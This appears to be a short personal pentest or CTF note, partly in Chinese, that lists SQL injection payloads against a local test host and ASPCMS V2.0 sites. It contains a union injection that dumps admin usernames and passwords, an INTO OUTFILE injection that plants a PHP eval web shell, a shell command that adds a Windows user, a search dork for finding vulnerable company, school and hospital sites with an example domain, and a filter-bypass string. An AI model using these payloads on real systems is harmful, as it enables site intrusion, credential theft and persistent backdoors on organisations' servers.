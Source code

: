 ## test

192.168.1.2:8080/?id=1 and 1=2 union select 1,concat(username,',',password) from admin

?id=' union select ",",'<?php @eval($_REQUEST[test]);?>' into outfile 'D:\\\phpStudy\\\PHPTutorial\\\WWW\\\shop\\\502g58de\\\test.php'%23

/test.php?test=system('net user myusername mypwd /add');

## test2

百度关键词: {有限公司\学校\医院\xxx}--Powered by ASPCMS V2.0

在找到的链接后边添加index.asp  /admin_aspcms/login.jsp  /admin/login.jsp 

​	如: http://bzschz.org/  → http://bzschz.org/index.asp

​	如:  http://bzschz.org/index.html  → http://bzschz.org/index.asp

​	?id=0 or 1=1(?id=1%20and%201=1) 可以判断是否有注入漏洞

?id=0%20unmasterion%20semasterlect..

![sqlmap001](/Users/liuyao/Desktop/STUDY/笔记/CTF/sqlmap001.png)

# 